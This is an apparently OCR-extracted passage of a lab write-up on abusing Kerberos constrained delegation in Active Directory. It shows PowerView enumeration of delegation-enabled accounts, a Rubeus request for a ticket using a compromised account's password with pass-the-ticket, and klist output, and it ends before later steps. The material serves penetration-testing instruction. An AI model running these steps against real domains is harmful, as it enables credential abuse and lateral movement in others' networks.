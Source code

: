 # Abuse

First i will check which accounts configured for constrained delegation

	PS C:\Users\testuser\Desktop> Get-DomainUser -TrustedToAuth | select samaccountname,msds-allowedtodelegateto,useraccount
	control | fl

	samaccountname           : lazyuser
	msds-allowedtodelegateto : {cifs/kabil.child.valhalla.local/child.valhalla.local, cifs/kabil.child.valhalla.local,
							   cifs/KABIL, cifs/kabil.child.valhalla.local/CHILD...}
	useraccountcontrol       : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION

Lets say somehow we comprimised this account, it could be accounts password or kerberos ticket and session , all works i guess. To demontrate it, i will continue with comprimising account password.

I will request a kerberos ticket with Rubeus tool

	PS C:\Users\testuser\Desktop> .\Rubeus.exe asktgt /user:lazyuser /password:Pass123! /domain:child.valhalla.local /ptt
	
	[*] Action: Ask TGT

	[*] Using rc4_hmac hash: C718F548C75062ADA93250DB208D3178
	[*] Building AS-REQ (w/ preauth) for: 'child.valhalla.local\lazyuser'
	[+] TGT request successful!
	[*] base64(ticket.kirbi):

		  doIFWjCCBVagAwIBBaEDAgEWooIEVzCCBFNhggRPMIIES6ADAgEFoRYbFENISUxELlZBTEhBTExBLkxP
		  ...................
		  SEFMTEEuTE9DQUypKTAnoAMCAQKhIDAeGwZrcmJ0Z3QbFGNoaWxkLnZhbGhhbGxhLmxvY2Fs
	[+] Ticket successfully imported!

	  ServiceName              :  krbtgt/child.valhalla.local
	  ServiceRealm             :  CHILD.VALHALLA.LOCAL
	  UserName                 :  lazyuser
	  UserRealm                :  CHILD.VALHALLA.LOCAL
	  StartTime                :  12/28/2021 4:50:47 PM
	  EndTime                  :  12/29/2021 2:50:47 AM
	  RenewTill                :  1/4/2022 4:50:47 PM
	  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
	  KeyType                  :  rc4_hmac
	  Base64(key)              :  xh8WabtikC0slL2NDOIsTQ==
	  ASREP (key)              :  C718F548C75062ADA93250DB208D3178

Check current tickets in session

	PS C:\Users\testuser\Desktop> klist
	Current LogonId is 0:0x58fd1
	Cached Tickets: (1)
	#0>     Client: lazyuser @ CHILD.VALHALLA.LOCAL
			Server: krbtgt/child.valhalla.local @ CHILD.VALHALLA.LOCAL
			KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
			Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
			Start Time: 12/28/2021 16:50:47 (local)
			End Time:   12/29/2021 2:50:47 (local)
			Renew Time: 1/4/2022 16:50:47 (local)
			Session Key Type: RSADSI RC4-HMAC(NT)
			Cache Flags: 0x1 -> PRIMARY
			Kdc Called:
